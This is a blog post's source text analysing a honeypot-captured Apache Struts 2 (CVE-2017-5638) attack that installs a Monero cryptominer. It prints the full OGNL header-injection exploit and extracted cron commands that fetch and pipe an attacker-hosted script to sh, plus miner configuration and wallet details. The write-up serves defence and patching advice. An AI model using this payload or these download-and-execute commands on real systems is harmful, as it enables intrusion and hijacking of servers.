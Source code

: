 ```yaml
---
title: From Apache Struts to Cryptominers
description: Hackers attacking web servers, running Java, with Apache Struts 2 exploits to install cryptominers on Linux/Windows powered machines.
layout: post
permalink: from-apache-struts-to-cryptominer
image: "img/apache_struts_cryptominer.png"
tags: cyber
categories: Cyber
---
```

Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").

{% include adsense.html %}

In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

The extracted bash command looks like this:

```bash
echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;



## Stage #2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

[ ![Stage 2. Terminating processes](../img/miner_shell_script_1.png){:.post_image} ](../img/miner_shell_script_1.png)

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

[ ![Stage 2. MUTEX checks. Monero Miner download](../img/miner_shell_script_2.png){:.post_image} ](../img/miner_shell_script_2.png)

{% include adsense2.html %}

There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage #3. Cryptominer.

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

[ ![Stage 3. cpuminer 2.3.3](../img/cpuminer_strings.png){:.post_image} ](../img/cpuminer_strings.png)

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

[ ![MineXMR Servers](../img/miner_servers.png){:.post_image} ](../img/miner_servers.png)

[ ![Miners Profit](../img/miner_profit.png){:.post_image} ](../img/miner_profit.png)

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.

{% include adsense.html %}
